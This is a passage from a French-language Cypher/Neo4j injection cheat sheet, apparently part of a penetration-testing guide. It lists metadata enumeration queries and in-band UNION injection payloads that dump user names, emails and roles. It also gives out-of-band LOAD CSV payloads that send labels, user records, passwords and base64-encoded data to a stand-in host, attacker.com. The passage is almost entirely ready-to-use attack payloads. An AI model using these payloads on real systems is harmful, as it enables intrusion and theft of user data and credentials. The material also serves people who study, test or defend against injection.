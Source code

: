 **🗂️ Énumération des Métadonnées**

```cypher
-- 📋 Lister tous les labels
Method 1: ' UNION CALL db.labels() YIELD label AS result //
Method 2: ' UNION MATCH (n) RETURN DISTINCT labels(n) AS result //
Method 3: ' UNION RETURN [label IN db.labels() | label] AS result //

-- 🔑 Lister les propriétés d'un label
MATCH (u:Utilisateur) RETURN DISTINCT keys(u) AS proprietes //

-- 📊 Compter les nœuds par label
MATCH (n) RETURN labels(n) AS label, count(*) AS count //

-- 🔗 Énumérer les types de relations
CALL db.relationshipTypes() YIELD relationshipType AS result //

-- 👥 Lister les utilisateurs de la base
SHOW USERS YIELD user AS result //

-- 🛡️ Lister les rôles
SHOW ROLES YIELD role AS result //
```

#### 7.2 Exfiltration de Données Avancée

**📤 Méthodes In-Band**

```cypher
-- 📊 Exfiltration basique
' UNION MATCH (u:Utilisateur) RETURN u.nom AS result //

-- 🔗 Agrégation pour éviter les limites de résultats  
' UNION MATCH (u:Utilisateur) RETURN collect(u.nom) AS result //

-- 📋 Données structurées
' UNION MATCH (u:Utilisateur) RETURN {nom: u.nom, email: u.email, role: u.role} AS result //

-- 🔢 Exfiltration avec numérotation
' UNION MATCH (u:Utilisateur) WITH u, id(u) AS uid RETURN uid + ': ' + u.nom AS result //
```

**🌐 Méthodes Out-of-Band**

```cypher
-- 📡 Exfiltration LOAD CSV basique
' CALL db.labels() YIELD label LOAD CSV FROM 'https://attacker.com/' + label AS r RETURN r //

-- 📦 Exfiltration de données utilisateur
' MATCH (u:Utilisateur) LOAD CSV FROM 'https://attacker.com/user/' + u.nom + '/' + u.email AS r RETURN r //

-- 🔐 Exfiltration de mots de passe (si stockés)  
' MATCH (u:Utilisateur) WHERE u.password IS NOT NULL LOAD CSV FROM 'https://attacker.com/pwd/' + u.nom + '/' + u.password AS r RETURN r //

-- 📊 Exfiltration avec encodage (contournement de caractères spéciaux)
' MATCH (u:Utilisateur) WITH apoc.text.base64Encode(u.nom + '|' + u.email) AS encoded LOAD CSV FROM 'https://attacker.com/b64/' + encoded AS r RETURN r //
```
